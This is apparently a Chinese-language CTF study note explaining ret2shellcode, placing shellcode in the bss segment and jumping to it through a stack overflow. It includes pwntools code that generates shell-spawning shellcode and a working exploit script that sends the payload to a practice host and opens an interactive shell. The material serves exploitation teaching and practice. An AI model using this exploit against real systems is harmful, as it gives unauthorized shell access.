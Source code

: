 





### ret2shellcode

#### 一 基本原理

​		shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的shell。

​		通过栈溢出控制程序执行流，进而去执行写入shellcode代码的位置。

#### 二 bss段上的ret2shellcode

​		程序存在一个输入，可以把数据写入bss段，还有一个栈溢出漏洞可以让我们去控制程序执行流。那我们就可以把shellcode写入bss段，然后我们通过栈溢出漏洞去跳转到写入shellcode的位置，然后去执行，就可以获得权限。

![image-20240415184220433](../typora-user-images/image-20240415184220433.png)

```python
# 通过pwntools来得到shellcode
# 32位的shellcode
from pwn import *

shellcode=shellcraft.sh()
shellcode

asm(shellcode)   # 转换为可写入的字符形式

# 64位的shellcode
shellcode_64=shellcraft.amd64.sh()
asm(shellcode_64)
```

```python
# 例题
from pwn import *

p=remote("10.10.11.69",1226)

padding = 0x68+4
bss_addr = 0x0804a080

shellcode=asm(shellcraft.sh())

p.recvuntil('Please Input:\n')
p.sendline(shellcode)

payload = b'a'*(padding)+p32(bss_addr)

p.sendline(payload)
p.interactive()
```

